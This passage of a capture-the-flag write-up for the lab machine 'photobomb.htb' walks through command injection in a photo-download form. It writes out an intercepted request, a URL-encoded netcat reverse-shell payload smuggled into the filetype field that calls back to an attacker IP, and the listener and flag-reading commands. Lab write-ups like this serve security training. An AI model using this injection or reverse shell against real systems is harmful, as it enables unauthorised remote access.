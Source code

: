 
After entering user+pass a pannel to download images is displayed.
Capturing with BurpSuite this HTTP request to download an image we have:
```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

Playing a little with this request in BurpSuite (module Repeater) we can infer that the site is using ruby as a programming language. Now we can play a little with the three parameters we have in the request (photo, filetype, and dimensions) and discover that for some reason filetype is injectable. We can add either a reverse shell in ruby or a reverse shell with netcat. Python doesn't work for us here. I go for an nc reverse shell and url-encode it like this:

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 164
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.80+24444+>/tmp/f&dimensions=3000x2000
```

Now, in the attacker machine (mine is 10.10.14.80), we listen on port 24444:
```
nc -lnvp 24444
```
Once we have the attacker machine listening, we go back to the repeater module in Burp Suite and launch the attack with the SEND button. We will obtain a reverse shell in the attacker machine.

After that, we run:
```
whoami
cat /home/wizard/user.txt
```
to get the user flag: ***********************

